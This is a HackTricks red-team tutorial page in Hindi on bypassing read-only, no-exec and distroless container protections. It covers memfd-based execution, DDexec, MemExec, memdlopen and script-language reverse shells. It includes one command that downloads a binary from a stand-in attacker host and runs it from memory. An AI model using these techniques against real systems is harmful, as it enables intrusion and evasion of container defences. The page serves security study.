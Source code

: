# FS सुरक्षा को उलटा: केवल पढ़ने योग्य / कोई-कार्यात्मक / Distroless

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks swag प्राप्त करें**](https://peass.creator-spring.com)
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अहैकेबल को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_चुस्त पोलिश लिखने और बोलने की आवश्यकता है_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - गुप्तचरता और टालने के लिए लिनक्स मेमोरी मेनिपुलेशन का अन्वेषण**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ गुप्त अतिक्रमण - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## केवल पढ़ने योग्य / कोई-कार्यात्मक स्थिति

लिनक्स मशीनों को **केवल पढ़ने योग्य (ro) फ़ाइल सिस्टम सुरक्षा** के साथ माउंट करना अधिक सामान्य हो रहा है, विशेष रूप से कंटेनर में। इसका कारण है कि ro फ़ाइल सिस्टम के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करना इतना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, यदि फ़ाइल सिस्टम को ro के रूप में माउंट किया गया है, तो **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह झूठ है कि हम डिस्क में कुछ भी लिख नहीं सकते। हालांकि, इस फ़ोल्डर को **कोई-कार्यात्मक सुरक्षा के साथ माउंट किया जाएगा**, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं तो आप **इसे क्रियान्वित नहीं कर सकेंगे**।

{% hint style="warning" %}
रेड टीम की दृष्टि से, यह **जटिल बना देता है कि डाउनलोड और क्रियान्वित करें** बाइनरी जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे जांचकर्ता)।
{% endhint %}

## सबसे आसान उल्टा: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को क्रियान्वित कर सकते हैं** जब तक अंतर्वादक मशीन में हो, जैसे एक **शैल स्क्रिप्ट** यदि `sh` मौजूद है या एक **पायथन स्क्रिप्ट** यदि `पायथन` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए जो आपको चलाने की आवश्यकता हो सकती है, इसके लिए केवल इतना ही काफी नहीं है।

## मेमोरी उल्टा

यदि आप एक बाइनरी को क्रियान्वित करना चाहते हैं लेकिन फ़ाइल सिस्टम उसे नहीं करने दे रहा है, तो उसे **मेमोरी से क्रियान्वित करना** सबसे अच्छा तरीका है, क्योंकि **सुरक्षा उसमें लागू नहीं होती**।

### FD + exec सिसकॉल उल्टा

यदि आपके पास मशीन के अंदर कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **पायथन**, **पर्ल**, या **रूबी**, तो आप मेमोरी से क्रियान्वित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर में स्टोर कर सकते हैं (`create_memfd` सिसकॉल), जिसे उन सुरक्षा उपायों द्वारा संरक्षित नहीं किया जाएगा और फिर एक **`exec` सिसकॉल** को कॉल करके **fd को फ़ाइल के रूप में क्रियान्वित करने के लिए** इंडिकेट कर सकते हैं।

इसके लिए आप आसानी से परियोजना [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह उसे एक निर्दिष्ट भाषा में स्क्रिप्ट उत्पन्न करेगा जिसमें बाइनरी **संकुचित और b64 एन्कोड किया गया** होगा और इसे **डिकोड और डीकंप्रेस** करने के निर्देश होंगे एक **fd** बुलाने के लिए `create_memfd` सिसकॉल और इसे चलाने के लिए **exec** सिसकॉल को कॉल करने के निर्देश होंगे।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं में काम नहीं करता है जैसे PHP या नोड क्योंकि उनके पास कोई **स्क्रिप्ट से रॉ सिसकॉल करने का डिफ़ॉल्ट तरीका** नहीं है, इसलिए `create_memfd` को कॉल करने के लिए **मेमोरी fd** बनाना संभव नहीं है।

इसके अतिरिक्त, `/dev/shm` में एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **कोई-कार्यात्मक सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको अपने खुद के प्रक्रिया की **मेमोरी को संशोधित करके** अनुप्रयोग करने की अनुमति देता है उसके **`/proc/self/mem`** को अधिलेखित करके।

इसलिए, प्रक्रिया द्वारा क्रियान्वित किया जा रहा असेंबली कोड को नियंत्रित करके, आप एक **शैलकोड** लिख सकते हैं और प्रक्रिया को **किसी भी विचित्र कोड** को क्रियान्वित करने के लिए "परिवर्तित" कर सकते हैं।

{% hint style="success" %}
**DDexec / EverythingExec** आपको अपने खुद के **शैलकोड** या **किसी भी बाइनरी** को **मेमोरी** से लोड और **क्रियान्वित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का प्राकृतिक अगला कदम है। यह एक **DDexec शैलकोड डेमनाइज्ड** है, इसलिए हर बार जब आप **एक विभिन्न बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप सिर्फ मेमेक्सेक शैलकोड को DDexec तकनीक के माध्यम से चला सकते हैं और फिर **इस डेमन के साथ संवाद करके नए बाइनरी को लोड और चलाने** के लिए।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) में **मेमेक्सेक का उपयोग कैसे करें** के एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक एक **सरल तरीके से बाइनरी को मेमरी में लोड करने** की अनुमति देती है ताकि उन्हें बाद में चलाया जा सके। यह यहाँ तक कि विभिन्न डिपेंडेंसी के साथ बाइनरी को लोड करने की भी अनुमति दे सकती है।

## Distroless Bypass

### Distroless क्या है

Distroless कंटेनर में केवल **विशेष एप्लिकेशन या सेवा को चलाने के लिए आवश्यकता होने वाले न्यूनतम घटक** होते हैं, जैसे पुस्तकालय और रनटाइम डिपेंडेंसी, लेकिन एक पैकेज प्रबंधक, शैल या सिस्टम उपयोगिताएं जैसे बड़े घटकों को छोड़ देते हैं।

Distroless कंटेनरों का लक्ष्य है कंटेनरों के **हमले की सतह को कम करके अनावश्यक घटकों को हटाकर** और उन विकल्पों की संख्या को कम करके उनमें से उन विकल्पों की संख्या को कम करना जो शोषित किया जा सकता है।

### रिवर्स शैल

एक डिस्ट्रोलेस कंटेनर में आपको **शायद ही `sh` या `bash`** मिलेगा जिससे आप एक साधारण शैल प्राप्त कर सकें। आप `ls`, `whoami`, `id` जैसी बाइनरी भी नहीं पाएंगे... जो आप सामान्यत: एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शैल** या **सिस्टम की जांच** जैसा काम करने में सक्षम नहीं होंगे।
{% endhint %}

हालांकि, यदि संक्रमित कंटेनर में उदाहरण के लिए एक फ्लास्क वेब चल रहा है, तो पायथन स्थापित है, और इसलिए आप एक **पायथन रिवर्स शैल** प्राप्त कर सकते हैं। यदि यह नोड चल रहा है, तो आप एक नोड रिवर्स शैल प्राप्त कर सकते हैं, और इसी तरह से अधिकांश के साथ **स्क्रिप्टिंग भाषा**।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **भाषा क्षमताओं का उपयोग करके सिस्टम की जांच** कर सकते हैं।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा उपाय नहीं है तो आप अपने रिवर्स शैल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी लिख सकते हैं** और उन्हें **चला सकते हैं**।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा उपाय आम तौर पर मौजूद होंगे, लेकिन आप **पिछले मेमरी निष्पादन तकनीकों का उपयोग करके उन्हें अनदेखा कर सकते हैं**।
{% endhint %}

आप **कुछ RCE वंलरेबिलिटी का शोधन करने** और [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) में मेमरी से बाइनरी चलाने के उदाहरण पा सकते हैं।
